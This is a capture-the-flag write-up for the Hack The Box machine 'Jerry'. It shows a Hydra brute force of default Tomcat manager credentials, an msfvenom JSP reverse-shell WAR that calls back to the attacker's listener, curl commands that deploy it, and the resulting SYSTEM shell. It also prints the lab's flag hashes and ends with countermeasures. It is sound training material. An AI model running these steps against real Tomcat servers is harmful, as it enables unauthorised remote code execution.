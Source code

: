 # Jerry

![](./images/jerry.png)

#### Machine Release Date: June 30, 2018

## Summary

Jerry was a trivial machine where default Tomcat 7 credentials were used.
Leveraging these credentials, I was able to access the Tomcat manager API to upload a malicious WAR file acting as a reverse shell.
Leveraging the uploaded payload, I was able to get remote code execution on the machine with SYSTEM privileges.

## Active Ports

```bash
sudo nmap -p8080 -sC -sV -oA nmap/full-tcp-version 10.10.10.95
```

```none
Nmap scan report for 10.10.10.95
Host is up (0.033s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 24 14:35:36 2020 -- 1 IP address (1 host up) scanned in 9.90 seconds
```

## User Own - (Tomcat 7 Default Credential Usage)

Navigating to the web service on port 8080, I was presented with a Tomcat 7 web application. It looked like the application had just been deployed.
Also, with Tomcat applications, it is always a good idea to brute force for default credentials:

```none
kali@kali:~/htb/machines/jerry/web/exploit$ hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-24 15:00:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-24 15:00:31
```

The username and password were `tomcat` and `s3cret` respectively.
Next, I generated a JSP reverse shell as a WAR file so that I could deploy it via the Tomcat manager:

```none
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=2001 -f war -o r0kit.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
Saved as: r0kit.war
```

I then created the following script to upload the malware to the server:

### commands.sh

```bash
curl -vv -X PUT -H "Authorization: Basic `echo -n 'tomcat:s3cret' | base64`" --data-binary @r0kit.war http://10.10.10.95:8080/manager/text/deploy?path=/r0kit
curl -vv -H "Authorization: Basic `echo -n 'tomcat:s3cret' | base64`" http://10.10.10.95:8080/manager/text/list
```

The first curl command sends an HTTP PUT request with the `tomcat:s3cret` credentials, uploading the `r0kit.war` JSP reverse shell.
The second curl command lists which Tomcat apps were deployed as a verification that my payload was successfully uploaded.

```none
kali@kali:~/htb/machines/jerry/web/exploit$ ./commands.sh
*   Trying 10.10.10.95:8080...
* Connected to 10.10.10.95 (10.10.10.95) port 8080 (#0)
> PUT /manager/text/deploy?path=/r0kit HTTP/1.1
> Host: 10.10.10.95:8080
> User-Agent: curl/7.72.0
> Accept: */*
> Authorization: Basic dG9tY2F0OnMzY3JldA==
> Content-Length: 1096
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 1096 out of 1096 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: Apache-Coyote/1.1
< Cache-Control: private
< Expires: Thu, 01 Jan 1970 02:00:00 EET
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Fri, 25 Sep 2020 02:09:35 GMT
<
OK - Deployed application at context path /r0kit
* Connection #0 to host 10.10.10.95 left intact
*   Trying 10.10.10.95:8080...
* Connected to 10.10.10.95 (10.10.10.95) port 8080 (#0)
> GET /manager/text/list HTTP/1.1
> Host: 10.10.10.95:8080
> User-Agent: curl/7.72.0
> Accept: */*
> Authorization: Basic dG9tY2F0OnMzY3JldA==
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: Apache-Coyote/1.1
< Cache-Control: private
< Expires: Thu, 01 Jan 1970 02:00:00 EET
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Fri, 25 Sep 2020 02:09:35 GMT
<
OK - Listed applications for virtual host localhost
/:running:0:ROOT
/examples:running:0:examples
/host-manager:running:0:host-manager
/r0kit:running:0:r0kit
/manager:running:2:manager
/docs:running:0:docs
* Connection #0 to host 10.10.10.95 left intact
```

Navigating to `http://10.10.10.95:8080/r0kit/` presented me with a reverse shell with SYSTEM privileges:

```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.95.
Ncat: Connection from 10.10.10.95:49192.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Doing some basic enumeration, I navigated to the Administrator's desktop to find the flags:

```none
c:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
c:\Users\Administrator\Desktop\flags>
```

## Countermeasures

* Upgrade to the latest version of tomcat.
* Always configure tomcat with non-default credentials. Prefer to use long passwords with alphanumeric characters, numbers, and special characters. Ideally, use a password manager so that you can manage non-human rememberable passwords.
* Avoid running services with SYSTEM privileges.
